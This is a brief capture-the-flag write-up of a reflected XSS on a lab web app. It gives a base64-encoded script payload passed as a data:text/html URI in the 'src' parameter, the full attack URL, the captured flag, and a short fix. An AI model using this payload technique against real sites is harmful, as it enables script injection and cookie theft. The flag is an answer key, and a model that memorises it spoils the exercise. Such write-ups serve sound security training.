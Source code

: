 # situation

## http://192.168.56.101/?page=media&src=nsa

The URL contains a src field, so we can assume that it loads documents from the server that are located in src
It is explained in a XSS Using Code Encoding data section of this site: https://owasp.org/www-community/attacks/xss/


I am trying to encode <script>alert('coucou')</script> in base 64 and it gives me : PHNjcmlwdD5hbGVydCgnY291Y291Jyk8L3NjcmlwdD4=

whit url : http://192.168.56.101/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnY291Y291Jyk8L3NjcmlwdD4=

flag : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
# problem
 that allows an attacker to inject malicious code (usually JavaScript) into a web page visited by a user. This malicious code can then be executed by the user's browser, allowing the attacker to steal sensitive information, such as authentication cookies, or perform malicious actions on the user's browser.


# solution
By avoiding directly inserting the data from the URL into the page, and by passing IDs that would point to images (in the DB)